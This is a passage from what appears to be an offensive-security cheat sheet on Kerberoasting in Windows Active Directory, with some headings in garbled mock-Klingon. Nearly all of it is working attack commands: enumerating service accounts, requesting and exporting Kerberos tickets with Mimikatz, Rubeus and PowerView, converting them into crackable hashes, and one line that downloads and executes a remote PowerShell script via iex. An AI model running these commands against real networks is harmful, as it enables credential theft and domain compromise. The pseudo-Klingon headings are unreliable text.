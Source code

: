 ```bash
```
Multi-features tools including a dump of kerberoastable users:

**Klingon Translation:**

**Qa'Hom QaD:**
Qa'Hom QaD vItlhutlhlaHchugh, kerberoastable users jop 'ej vItlhutlhlaHchugh tools:
```bash
# ADenum: https://github.com/SecuProject/ADenum
adenum -d <DOMAIN.FULL> -ip <DC_IP> -u <USERNAME> -p <PASSWORD> -c
```
#### Windows

* **Enumerate Kerberoastable users**
```powershell
# Get Kerberoastable users
setspn.exe -Q */* #This is a built-in binary. Focus on user accounts
Get-NetUser -SPN | select serviceprincipalname #Powerview
.\Rubeus.exe kerberoast /stats
```
* **Technique 1: TGS jatlh je, 'ej memory laH jatlh**
```powershell
#Get TGS in memory from a single user
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServicePrincipalName" #Example: MSSQLSvc/mgmt.domain.local

#Get TGSs for ALL kerberoastable accounts (PCs included, not really smart)
setspn.exe -T DOMAIN_NAME.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

#List kerberos tickets in memory
klist

# Extract them from memory
Invoke-Mimikatz -Command '"kerberos::list /export"' #Export tickets to current folder

# Transform kirbi ticket to john
python2.7 kirbi2john.py sqldev.kirbi
# Transform john to hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
* **Technique 2: Automatic tools**
```bash
# Powerview: Get Kerberoast hash of a user
Request-SPNTicket -SPN "<SPN>" -Format Hashcat #Using PowerView Ex: MSSQLSvc/mgmt.domain.local
# Powerview: Get all Kerberoast hashes
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\kerberoast.csv -NoTypeInformation

# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast #Specific user
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #Get of admins

# Invoke-Kerberoast
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
{% hint style="warning" %}